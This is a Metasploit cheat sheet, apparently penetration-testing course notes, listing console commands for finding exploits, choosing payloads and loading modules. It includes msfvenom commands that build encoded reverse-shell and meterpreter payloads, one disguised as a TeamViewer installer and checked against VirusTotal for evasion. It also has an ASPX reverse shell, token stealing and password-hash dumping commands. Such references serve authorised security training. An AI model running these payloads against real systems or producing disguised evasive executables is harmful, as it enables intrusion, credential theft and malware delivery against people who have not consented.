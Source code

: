 # Modules
#### Syntax
```
<No.> <type>/<os>/<service>/<name>
```

```
794   exploit/windows/ftp/scriptftp_list
```
#### Specific Search
```
search type:exploit platform:windows cve:2021 rank:excellent microsoft
```
#### Module Information
```
info
```
#### Permanent Target Specification
```
setg RHOSTS 10.10.10.40
```
# Targets
#### Show Targets
```
show targets
```
# Payloads
#### List Payloads
```
show payloads
```
#### Searching for Specific Payload
```
grep meterpreter show payloads
```

```
grep meterpreter grep reverse_tcp show payloads
```

```
set payload <payload number>
```
# Encoders
#### List Encoders
```
show encoders
```
#### Selecting an Encoder
```
msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | msfencode -b '\x00' -f perl -e x86/shikata_ga_nai
```
#### Generating Payload - With Encoding
```
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe
```
# Databases
#### PostgreSQL Status
```
sudo service postgresql status
```
#### Start PostgreSQL
```
sudo systemctl start postgresql
```
#### Initiate a Database
```
sudo msfdb init
```
#### Connect to the Initiated Database
```
sudo msfdb run
```
#### Reinitiate the Database
```
msfdb reinit
cp /usr/share/metasploit-framework/config/database.yml ~/.msf4/
sudo service postgresql restart
msfconsole -q

db_status
```
## Workspaces
```
workspace
```
```
workspace -a Target_1
```
#### Importing Scan Results
```
cat Target.nmap
```
#### Importing Scan Results
```
db_import Target.xml
```
#### MSF - Nmap
```
db_nmap -sV -sS 10.10.10.8
```
# Plugins
```
ls /usr/share/metasploit-framework/plugins
```
#### Load Nessus
```
load nessus
```
## Installing new Plugins
#### Downloading MSF Plugins
```
git clone https://github.com/darkoperator/Metasploit-Plugins
ls Metasploit-Plugins
```
#### Copying Plugin to MSF
```
sudo cp ./Metasploit-Plugins/pentest.rb /usr/share/metasploit-framework/plugins/pentest.rb
```
#### Load Plugin
```
msfconsole -q
load pentest
```
# Meterpreter
#### Meterpreter Migration
```shell
getuid
ps
steal_token 1836
getuid
```
#### Dumping Hashes
```shell
hashdump
```

```
lsa_dump_sam
```

```
lsa_dump_secrets
```
# Importing Modules
```
searchsploit nagios3
```

```
searchsploit -t Nagios3 --exclude=".py"
```
#### Directory Structure
```
ls /usr/share/metasploit-framework/
```
```
ls .msf4/
```
#### Loading Additional Modules at Runtime
```
cp ~/Downloads/9861.rb /usr/share/metasploit-framework/modules/exploits/unix/webapp/nagios3_command_injection.rb
```

```
msfconsole -m /usr/share/metasploit-framework/modules/
```
#### Loading Additional Modules
```
loadpath /usr/share/metasploit-framework/modules/
```

```
reload_all
```
## Porting Over Scripts into Metasploit Modules
#### Porting MSF Modules
```
ls /usr/share/metasploit-framework/modules/exploits/linux/http/ | grep bludit
```
```
cp ~/Downloads/48746.rb /usr/share/metasploit-framework/modules/exploits/linux/http/bludit_auth_bruteforce_mitigation_bypass.rb
```
# MSFVenom
#### Generating Payload
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx
```
#### Setting Up Multi/Handler
```
msfconsole -q 
```
```
use multi/handler
```
# MSF VirusTotal
```
msf-virustotal -k <API key> -f TeamViewerInstall.exe
```
